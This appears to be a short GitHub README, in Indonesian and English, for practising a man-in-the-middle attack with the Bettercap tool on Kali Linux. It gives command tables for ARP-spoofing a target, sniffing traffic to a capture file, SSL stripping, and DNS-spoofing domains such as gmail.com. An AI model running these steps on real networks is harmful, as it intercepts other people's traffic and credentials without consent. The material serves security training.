 # bettercap.MITM-attack
Man In The Middle attack practice
lebih tepatnya kita meracuni ARP atau Address Resolution Protocol pada jaringan korban. dimana informasi yang berasal dari korban akan diredirect ke komputer Attacker terlebih dahulu sebelum menuju URL tujuan. disini kita akan menggunakan tools Bettercap.

saya menggunakan OS Kali linux. tools ini opsional nya sudah terinstall default. jika menggunakan selain Kali linux install dengan perintah. `sudo apt-get install bettercap`

### COMMAND TO RUN
RUN bettercap tools `sudo bettercap` <br>
#### table command http protocol (no SSL)
| command | information |
|---------|-------------|
| help | to show bettercap option |
| help (option) | to shown specific option information |
| net.probe on | start the net.probe to scan all live host in network |
| help arp.spoof | show information about arp.spoof |
| set arp.spoof.internal true | enable arp.spoof module |
| set arp.spoof.targets (target ip) | spoof victim arp |
| arp.spoof on | enable arp spoof |
| set net.sniff.output (directory to save capt file) | for enable /home/user/Document/pentest.pcap |
| net.sniff on | enable net sniff |

#### table command https protocol (with SSL)
| command | information |
|---------|-------------|
| help https.proxy | shown specific information about https.proxy |
| set https.proxy.sslstrip true | enable https.proxy mode (true) |
| set dns.spoof.address (ip address) | set dns spoofing with IP Address |
| set dns.spoof.domains (domain) | set dns spoofing domain, ex. gmail.com,www.gmail.com,https://gmail.com |
| dns.spoof on | enable dns.spoof |
<br>
<br>
![MITM](https://user-images.githubusercontent.com/92193431/173983407-df81ef0a-a41a-46c2-abcb-97bb0db59875.jpeg)
